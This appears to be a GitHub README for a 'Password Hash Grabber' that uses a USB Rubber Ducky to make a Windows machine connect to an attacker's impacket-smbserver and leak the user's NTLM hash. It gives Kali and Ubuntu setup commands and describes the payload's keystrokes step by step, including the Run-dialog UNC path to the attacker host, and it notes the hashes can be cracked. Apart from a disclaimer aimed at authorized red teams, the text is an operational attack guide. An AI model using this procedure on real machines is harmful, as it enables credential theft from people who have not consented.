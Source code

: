 # Password Hash Grabber (Windows)

This project utilizes a USB Rubber Ducky to capture Windows password hashes in less than two seconds, demonstrating a powerful method for assessing policy compliance and information security awareness. By executing a simple DuckyScript payload, it initiates a CIFS/SMB connection to a targeted listening server to obtain user hash information. This technique is effective across almost all versions of Microsoft Windows and requires minimal privileges, making it a valuable tool for penetration testers and internal red teams.

The critical component of this attack is ****impacket-smbserver from the Impacket suite, an open-source tool designed for such operations. The server needs to be set up on the target network to capture the NTLM hash, timestamp, workstation ID, and user details as Windows attempts to authenticate with the CIFS share.

## Disclaimer

The tools and scripts provided in this repository are made available for educational purposes only and are intended to be used for testing and protecting systems with the consent of the owners. The author does not take any responsibility for the misuse of these tools. It is the end user's responsibility to obey all applicable local, state, national, and international laws. The developers assume no liability and are not responsible for any misuse or damage caused by this program. Under no circumstances should this tool be used for malicious purposes. The author of this tool advocates for the responsible and ethical use of security tools. Please use this tool responsibly and ethically, ensuring that you have proper authorization before engaging any system with the techniques demonstrated by this project.

## Features

This DuckyScript is designed for rapid exfiltration of Windows password hashes by exploiting the SMB (Server Message Block) protocol. When executed, it forces a Windows machine to attempt an SMB connection to a predefined server, triggering an automatic hash exchange process part of the SMB protocol's authentication mechanism.

## Prerequisites

- **Operating System**: Tested on Windows 10 x64, version 22H2, Kali Linux 2023.4, Ubuntu 22.04.4 LTS.
- **Payload Studio**: Tested with Payload Studio Pro version 1.3.1
- **DuckyScript Version**: DuckScript 3.0 Advanced
- **Hardware**: USB Rubber Ducky (2022)

## Usage

### **Step 1: Prepare the impacket-smbserver Environment (Kali Linux)**

1. **Set Up impacket-smbserver**:
    - Verify installation by running one of the Impacket tools or check the installed version: `impacket-smbserver --version`
    - Choose a directory where you want the SMB server to store captured hashes (e.g., `/tmp/`).
    - Run an SMB server using `impacket-smbserver`, by specifying a share name and a path to the folder you want to share, for example: `sudo impacket-smbserver TMP /tmp/`
        
        ```bash
        sudo impacket-smbserver <SHARE_NAME> <PATH_TO_FOLDER>
        ```
        
    - On the Windows target machine, you can access the share by navigating to `\\[KALI_IP_ADDRESS]\TMP` in the File Explorer, where `[KALI_IP_ADDRESS]` is the IP address of your Kali VM.

### **Step 1: Prepare the impacket-smbserver Environment (Ubuntu)**

1. **Install pipx:**
    - Ensure Python3 and pip are installed first.
    - Install `pipx` using pip:
        
        ```bash
        python3 -m pip install --user pipx
        python3 -m pipx ensurepath
        ```
        
2. **Install Impacket**: 
    - With `pipx` installed, you can now proceed to install Impacket. To install the latest stable release of Impacket, run: `python3 -m pipx install impacket`
        - This command will download and install Impacket and its dependencies in an isolated environment while making the Impacket tools available system-wide.
    - Verify installation by running one of the Impacket tools or check the installed version: `impacket-smbserver --version`
3. **Set Up smbserver.py**:
    - Choose a directory where you want the SMB server to store captured hashes (e.g., `/tmp/` on Linux).
    - Run an SMB server using `impacket-smbserver`, by specifying a share name and a path to the folder you want to share, for example: `sudo impacket-smbserver TMP /var/`
        
        ```bash
        sudo impacket-smbserver <SHARE_NAME> <PATH_TO_FOLDER>
        ```
        
    - On the Windows target machine, you can access the share by navigating to `\\[KALI_IP_ADDRESS]\TMP` in the File Explorer, where `[KALI_IP_ADDRESS]` is the IP address of your Kali VM.

### Step 2: **Create the DuckyScript Payload**

- **Write the Payload**: Ensure you replace `example.com` with the actual hostname or IP address of the server running  ****`impacket-smbserver`.

### **Step 3: Deploy the Payload**

- **Load and Execute**: Load the DuckyScript payload onto your USB Rubber Ducky, plug it into the target Windows machine, and let it execute the script. The script quickly opens a Run dialog, attempts to connect to the specified CIFS share, and in the process, sends the NTLM hash to the smbserver.

### Step 4: Capture and Utilize the Hash

- **Monitor impacket-smbserver Output**: The smbserver will output the captured hash information, including the timestamp, workstation ID, user, and NTLM hash. This information can be used for further analysis or cracking attempts.

## How It Works

- **Host Setup**: Before deployment, you must set up an SMB server using Impacket's `impacket-smbserver`. This server will listen for incoming SMB connections and capture NTLM hashes passed during the authentication attempt.
- **Script Execution**: Upon plugging in the USB Rubber Ducky, the script waits for 1 second (`DELAY 1000`) to ensure the system recognizes the device. It then simulates the key combination `GUI r` to open the Run dialog.
- **Connection Initiation**: The script types `\\[HOSTNAME]\[SHARE_NAME]` and hits Enter, where `[HOSTNAME]` is the address of your SMB server and `[SHARE_NAME]` the SMB share name. This action attempts to initiate an SMB connection to the specified server.
- **Hash Capture**: As Windows tries to authenticate with the SMB server, the user's NTLM hash, username, and workstation ID are transmitted. The Impacket `impacket-smbserver` captures this information.
- **Rapid Execution**: This entire process is designed to execute in less than two seconds, showcasing the speed and stealthiness of the attack. It highlights the potential risk and impact of physical access vulnerabilities.

## Output Example

![DuckyScript Payload Results](/images/impacket_smb_results.png)

## Contributing

If you have an idea for an improvement or if you're interested in collaborating, you are welcome to contribute. Please feel free to open an issue or submit a pull request.

## License
This project is licensed under the GNU General Public (GPL) License - see the [LICENSE](LICENSE) file for details.
